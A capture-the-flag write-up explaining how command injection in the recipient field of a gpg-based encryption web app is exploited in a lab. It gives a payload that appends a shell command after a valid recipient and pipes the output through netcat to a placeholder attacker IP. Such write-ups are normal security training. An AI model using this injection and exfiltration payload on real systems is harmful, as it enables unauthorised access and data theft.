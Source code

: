 After pivoting through their internal network, we have found yet another encryption tool. Can you hack into the server and extract the secret data? Our intel tells us that the app is using the gpg tool.
Start the machine below and access the web app at `http://MACHINE_IP:5000`.

---

- To encrypt files, the website uses the `gpg` tool (we know this from the response file extension)
![](https://github.com/zakaria-mghili/writeups_HackfinityBattle_2025/blob/25a65387985cdb01ce7a6505b166a3edb4a56fa7/img/2025-03-25%2023_28_13-DarkMatter%20Encryptor%20-%20Brave.png)

- The website is vulnerable to command injection into the `recipient`
- the website first check if the recipient is a one from the list. so in malicious command we should use recipient like Cipher or another from list Then use `;` to separate it from our command.
- We add a malicious command that consists of two parts: one containing standard commands like `ls` or `cat`... and another using the `netcat` tool. We combine them using piping:  `Cipher ; malicious_command | nc YOUR_IP_ADDR 4444 ;`
- we can use burp suite to edit recipient input.
- Before send the payload, you need to set up a `Netcat listener` to receive the exfiltrated data.

![](https://github.com/zakaria-mghili/writeups_HackfinityBattle_2025/blob/0ebb78b6b2e667d523042972fb80f7b9afb7274a/img/2025-03-25%2023_55_52-kali-linux-2024.4-vmware-amd64%20-%20VMware%20Workstation.png)

>response 

![](https://github.com/zakaria-mghili/writeups_HackfinityBattle_2025/blob/0ebb78b6b2e667d523042972fb80f7b9afb7274a/img/2025-03-26%2000_01_17-kali-linux-2024.4-vmware-amd64%20-%20VMware%20Workstation.png)
> the exploitation is work and , we find the flag file , now we need just to `cat` content of flag file

![](https://github.com/zakaria-mghili/writeups_HackfinityBattle_2025/blob/0ebb78b6b2e667d523042972fb80f7b9afb7274a/img/2025-03-26%2000_04_09-kali-linux-2024.4-vmware-amd64%20-%20VMware%20Workstation.png)

![](https://github.com/zakaria-mghili/writeups_HackfinityBattle_2025/blob/0ebb78b6b2e667d523042972fb80f7b9afb7274a/img/2025-03-26%2000_05_32-kali-linux-2024.4-vmware-amd64%20-%20VMware%20Workstation.png)




